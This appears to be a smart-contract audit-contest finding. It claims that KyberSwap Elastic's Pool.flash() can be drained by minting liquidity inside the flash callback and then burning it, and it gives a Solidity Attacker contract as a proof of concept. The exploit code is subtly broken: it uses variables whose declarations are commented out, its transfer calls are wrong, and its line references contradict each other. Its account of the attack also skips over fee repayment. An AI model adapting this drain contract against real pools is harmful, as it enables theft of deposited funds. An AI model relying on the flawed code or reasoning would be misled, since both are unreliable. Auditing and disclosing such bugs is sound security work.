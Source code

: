 Gigantic Cherry Toad

high

# User can drain the whole pool
## Summary
In the `Pool.sol` contract `flash()` function allows users to request for token0 and/or token1 and pay it back in the same transaction, plus a fee (which is optional), in the `callback`.
The user should provide following parameters:

- recipient (address) - address which will receive the token0 and token1 quantities
- qty0 (uint256) - token0 quantity to be loaned to the recipient
- qty1 (uint256) - token1 quantity to be loaned to the recipient
- data (bytes) - data, to be passed into the callback function

The function process is pretty straightforward:

1. The function first determines the fees associated with the flash loan operation by multiplying the quantity of tokens to be borrowed (`qty0` and `qty1`) with `swapFeeUnits` and dividing by `C.FEE_UNITS`.
2. It then checks the balances of the pool for `token0` and `token1` before the operation.
3. The desired amount of tokens (`qty0` and `qty1`) are transferred to the `recipient`.
4. A callback function, `flashCallback`, is called. `This function is expected to be implemented by the caller, and this is where they can perform any operation with the borrowed tokens.`
5. After the callback function completes, the function checks the new balances of the pool.
6. It then ensures that the tokens have been returned with the necessary fees added on top.
7. Finally, the fees (in tokens) are transferred to the `feeTo` address and an event `Flash` is emitted.


## Vulnerability Detail
The issue come on [549 and 550 lines](https://github.com/sherlock-audit/2023-07-kyber-swap/blob/main/ks-elastic-sc/contracts/Pool.sol#L549-L550).

**[Pool.sol#L559-L560:](https://github.com/sherlock-audit/2023-07-kyber-swap/blob/main/ks-elastic-sc/contracts/Pool.sol#L559-L560)**

```solidity
    require(balance0Before + feeQty0 <= balance0After, 'lacking feeQty0');
    require(balance1Before + feeQty1 <= balance1After, 'lacking feeQty1');
```

It is only making sure that the balance of the token0 and token1 in the pool after (aka balance0After and balance1Before) calling the `flashCallback()` by the caller is greater than or equal to the balances before stored values of token0 and token1 plus fees quantity.

**[Pool.sol#L538-L547:](https://github.com/sherlock-audit/2023-07-kyber-swap/blob/main/ks-elastic-sc/contracts/Pool.sol#L538-L547)**

```solidity
    uint256 balance0Before = _poolBalToken0();
    uint256 balance1Before = _poolBalToken1();

    /* ... */

    IFlashCallback(msg.sender).flashCallback(feeQty0, feeQty1, data);

    uint256 balance0After = _poolBalToken0();
    uint256 balance1After = _poolBalToken1();
```

**[Pool.sol#L33-L53:](https://github.com/sherlock-audit/2023-07-kyber-swap/blob/main/ks-elastic-sc/contracts/Pool.sol#L33-L53)**

```solidity
function _poolBalToken0() private view returns (uint256) {
  (bool success, bytes memory data) = address(token0).staticcall(
    abi.encodeWithSelector(IERC20.balanceOf.selector, address(this))
  );
  require(success && data.length >= 32);
  return abi.decode(data, (uint256));
}

function _poolBalToken1() private view returns (uint256) {
  (bool success, bytes memory data) = address(token1).staticcall(
    abi.encodeWithSelector(IERC20.balanceOf.selector, address(this))
  );
  require(success && data.length >= 32);
  return abi.decode(data, (uint256));
}

```

On [544 Line](https://github.com/sherlock-audit/2023-07-kyber-swap/blob/main/ks-elastic-sc/contracts/Pool.sol#L544), the flow of the contract is in the attacker's control. What this means is that when we receive control inside our own flashCallback() function, we can call the mint() function to deposit the loaned amount of token0 and token1 back to the pool.
The pool will update its balance of token0 and token1.

The `flash()` function validates the repayment of the flash loan based on the total balance of the protocol for the tokens. By obtaining a flash loan for the total amount of the protocol and then calling the `mint()` function within the same transaction, a malicious actor can add to the total balance of the protocol. The end result is that after the `flash()` function completes its execution, the attacker would end up owning all the tokens in the protocol.

**This is the sample contract that can exploit the whole thing:**

```solidity
contract Attacker {
  Pool immutable pool;
  address immutable owner;
  IERC20 immutable poolToken0;
  IERC20 immutable poolToken1;

  modifier onlyOwner() {
    require(msg.sender == owner, "only owner");
    _;
  }

  receive() external payable {}

  constructor(address pool_) {
    owner = msg.sender;

    pool = Pool(pool_);
    poolToken0 = pool.token0();
    poolToken1 = pool.token1();
  }

  function executeAttack() external onlyOwner {
    // uint256 poolTokenOBalance = poolToken0.balanceOf(address(pool));
    // uint256 poolToken1Balance = poolToken1.balanceOf(address(pool));

    pool.flash(address(this), poolTokenOBalance, poolToken1Balance, "");

    // These values are just for the example
    int24 tickLower = -887272;
    int24 tickUpper = 887272;
    uint128 qty = 5000; // Amount of liquidity that we want to get

    (uint256 qty0, uint256 qty1, uint256 feeGrowthInsideLast) = pool.burn(
      tickLower,
      tickUpper,
      qty
    );

    poolToken0.transferFrom(address(this), owner, qty0);
    poolToken1.transferFrom(address(this), owner, qty1);
  }

  function flashCallback(
    uint256 feeQty0,
    uint256 feeQty1,
    bytes calldata data
  ) external {
    // uint256 token0Amount = pool.token0().balanceOf(address(this)) - feeQty0;
    // uint256 token1Amount = pool.token1().balanceOf(address(this)) - feeQty1;

    // These values are just for the example
    int24 tickLower = -887272;
    int24 tickUpper = 887272;
    int24[2] memory ticksPrevious = [int24(0), int24(0)];
    uint128 qty = 5000; // Amount of liquidity that we want to add
    bytes memory data = "";

    pool.mint(address(this), tickLower, tickUpper, ticksPrevious, qty, data);
  }
}

```

1. The function executeAttack() calls the pool.flash() to start the attack.
2. The flash() function calls `IFlashCallback(msg.sender).flashCallback(feeQty0, feeQty1, data);` which sends the control flow back to our contract's receive() function since our contract is msg.sender for this transaction, along with the loaned amount.
3. The function `flashCallback()` calls pool.mint() and deposits the loaned amount of token0 and token1 back into the pool, but also `updates the balances mappings of the token0 and token1` so that we can burn after that.
4. flash() function [require() validations](https://github.com/sherlock-audit/2023-07-kyber-swap/blob/main/ks-elastic-sc/contracts/Pool.sol#L559-L560) returns true, the flow is again returned to our contract's executeAttack() function and it calls pool.burn() to transfer all the deposited amount of token0 and token1 by `Attacker` contract.
5. It then transfer the received balance/amount of token0 and token1 to the owner, finishing the exploit.


## Impact
Complete loss of funds in the protocol, causing significant financial harm to all stakeholders.


## Code Snippet
https://github.com/sherlock-audit/2023-07-kyber-swap/blob/main/ks-elastic-sc/contracts/Pool.sol#L524-L563

https://github.com/sherlock-audit/2023-07-kyber-swap/blob/main/ks-elastic-sc/contracts/Pool.sol#L171-L215


## Tool used

Manual Review

## Recommendation
Consider to don't allow to the user that take flash loan to call mint() and burn() function.